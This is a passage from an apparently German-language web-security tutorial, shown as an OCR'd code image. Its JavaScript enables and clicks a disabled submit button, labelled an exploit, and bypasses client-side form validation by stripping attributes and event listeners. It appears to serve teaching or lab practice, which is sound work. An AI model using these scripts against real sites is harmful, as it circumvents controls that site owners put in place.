 ```javascript
        button.click();
        return button;
    }
    
    // 3. Versuch: Angular Material Kombination
    button = document.querySelector('button[mat-raised-button][type="submit"].mat-primary');
    if (button) {
        console.log('✅ Method 3: Found by Angular Material combo');
        button.disabled = false;
        button.click();
        return button;
    }
    
    // 4. Versuch: Text-basierte Suche (last resort)
    const buttons = Array.from(document.querySelectorAll('button[type="submit"]'));
    button = buttons.find(btn => 
        btn.textContent.includes('Submit') && 
        btn.hasAttribute('disabled')
    );
    
    if (button) {
        console.log('✅ Method 4: Found by text content');
        button.disabled = false;
        button.click();
        return button;
    }
    
    console.log('❌ All methods failed!');
    return null;
}

// Execute the exploit
exploitSubmitButton();
```

**🔑 Kernaussage: Die ID macht den Button direkt auffindbar und ist der zuverlässigste Weg. Class-basierte Selektion ist möglich, aber deutlich komplexer und fehleranfälliger!**

### 🔍 Schritt 3: Formular-Validierung umgehen

```javascript
// Erweiterte Form-Manipulation
function bypassFormValidation() {
    const form = document.querySelector('form');
    const submitButton = document.querySelector('button[type="submit"], #registerButton');
    
    if (form && submitButton) {
        // 1. Button aktivieren
        submitButton.removeAttribute('disabled');
        submitButton.disabled = false;
        
        // 2. Form-Validierung deaktivieren
        form.setAttribute('novalidate', 'true');
        
        // 3. Entferne Event-Listener die das Absenden verhindern
        const newForm = form.cloneNode(true);
        form.parentNode.replaceChild(newForm, form);
        
        // 4. Neuen Submit-Handler hinzufügen
        const newSubmitButton = newForm.querySelector('button[type="submit"], #registerButton');
        newSubmitButton.removeAttribute('disabled');
        newSubmitButton.disabled = false;
        
        console.log('✅ Form validation bypassed!');
```
